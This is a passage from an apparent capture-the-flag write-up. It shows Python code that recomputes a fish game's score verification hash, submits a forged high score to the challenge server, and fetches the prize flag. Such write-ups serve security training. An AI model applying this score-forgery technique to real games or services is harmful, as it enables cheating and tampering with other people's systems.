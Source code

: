 ### Calculate Valid Verification

```python
# Example calculation
token = "fe714afd515bea2bff8dd30cafc2d441"
score = 100000  # High score we want
asd_value = score * 123  # Convert to internal representation

# Create verification string exactly as the game does
verify_string = f"{token}_{asd_value}"
verify_hash = calculate_hash(verify_string)

print(f"Score: {score}")
print(f"ASD Value: {asd_value}")
print(f"Verify String: {verify_string}")
print(f"Verify Hash: {verify_hash}")
```

### Submit the Forged Score

```python
payload = {
    "token": token,
    "username": "user",
    "score": score,        # The display score
    "verify": verify_hash  # Our calculated verification
}

response = requests.post(
    "https://fishgame.task.sasc.tf/set_score",
    headers={"Content-Type": "application/json"},
    json=payload
)

print(f"Status: {response.status_code}")
print(f"Response: {response.text}")
```

---

## Step 7: Getting the Flag

### Request the Prize

After successfully submitting a high score:

```python
prize_response = requests.get(f"https://fishgame.task.sasc.tf/get_prize/{token}")

if prize_response.status_code == 200:
    data = prize_response.json()
    prize = data.get("prize", "No prize found")
    print(f"Prize: {prize}")
    
    if "kaspersky{" in prize:
        print(f"FLAG FOUND: {prize}")
```
